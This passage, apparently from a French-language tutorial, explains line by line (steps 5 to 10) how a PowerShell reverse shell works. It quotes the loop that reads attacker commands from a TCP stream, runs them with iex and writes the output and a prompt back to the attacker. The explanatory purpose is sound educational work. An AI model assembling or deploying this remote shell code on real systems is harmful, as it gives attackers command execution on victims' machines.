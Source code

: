 #### 5. **`while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)`**

* **`$i = $stream.Read($bytes, 0, $bytes.Length)`** : Cette méthode lit les données depuis le flux réseau et les stocke dans le tableau `$bytes`. Elle renvoie le nombre d'octets lus, et cela est assigné à `$i`.
* **`while(... -ne 0)`** : Cette boucle `while` continue tant que le nombre d'octets lus n'est pas égal à 0. Si `$i` est 0, cela signifie que la connexion est terminée.
* **But** : Tant qu'il y a des données à lire depuis la connexion réseau, la boucle se répète.

#### 6. **`$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i)`**

* **`New-Object -TypeName System.Text.ASCIIEncoding`** : Cela crée un nouvel objet pour l'encodage de texte en ASCII.
* **`.GetString($bytes, 0, $i)`** : Cette méthode convertit les octets lus en une chaîne de caractères ASCII, en prenant `$i` octets à partir de l'index 0.
* **But** : La donnée brute lue du flux réseau est convertie en texte compréhensible (ASCII), qui représente la commande envoyée par l'attaquant.

#### 7. **`$sendback = (iex $data 2>&1 | Out-String)`**

* **`iex $data`** : La commande `iex` exécute dynamiquement la chaîne de commande contenue dans `$data`. Cela permet d'exécuter les commandes envoyées par l'attaquant.
* **`2>&1`** : Cette redirection envoie les messages d'erreurs vers la sortie standard, ce qui permet de capturer les erreurs dans la réponse.
* **`| Out-String`** : Cela convertit la sortie en une chaîne de caractères.
* **But** : Cette ligne exécute la commande envoyée et capture la sortie (ou les erreurs) dans une variable `$sendback`.

#### 8. **`$sendback2 = $sendback + 'PS ' + (pwd).Path + '> '`**

* **`$sendback2`** : Cette variable combine la sortie de la commande exécutée avec une invite de commande de type PowerShell (`PS <path> >`), où `<path>` est le chemin actuel (`pwd` signifie "print working directory").
* **But** : Cela prépare une chaîne à envoyer de retour à l'attaquant, comprenant la sortie de la commande suivie de l'invite PowerShell, pour indiquer que le shell est prêt à recevoir une nouvelle commande.

#### 9. **`$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)`**

* **`[text.encoding]::ASCII`** : Cette syntaxe appelle l'encodage ASCII en utilisant .NET.
* **`.GetBytes($sendback2)`** : Cette méthode convertit la chaîne `$sendback2` en un tableau d'octets (byte array), pour que les données puissent être envoyées via le flux réseau.
* **But** : La sortie est convertie en octets pour être envoyée via la connexion TCP.

#### 10. **`$stream.Write($sendbyte, 0, $sendbyte.Length)`**

* **`$stream.Write`** : Cette méthode envoie les octets via le flux réseau vers l'attaquant.
* **But** : La sortie de la commande est envoyée à l'attaquant.

